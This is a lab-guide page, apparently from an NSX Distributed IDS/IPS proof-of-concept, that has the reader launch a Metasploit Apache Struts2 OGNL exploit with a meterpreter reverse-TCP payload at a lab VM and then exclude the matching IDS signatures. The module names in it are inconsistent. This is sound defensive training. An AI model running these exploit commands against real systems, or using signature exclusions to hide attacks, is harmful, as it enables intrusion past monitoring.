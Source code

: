 
## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Attempt to evade IDS/IPS detection by using obfuscations
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 3 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
    ![](assets/images/IDPS_POC_22.PNG)
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.
![](assets/images/IDPS_POC_21.PNG)
10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.

Now that we have tuned our Profile, we will try the failed exploit attempt again, and confirm this time the signatures don't fire.

12.	From the already open console session with  **External VM**, use the already configured **struts2_namespace_ognl** Metastploit module to launch the exploit attempt again. 
    * Type **exploit** to initiate the exploit. If you had previously closed Metsploit, then repeat step #1 of this exercise instead to launch the exploit attempt
13. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
14. Confirm the total number of events or the number of times each **Apache_Struts2** signature fired has not increased.
![](assets/images/IDPS_POC_22.PNG)
15. You have now completed this exercise.

---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
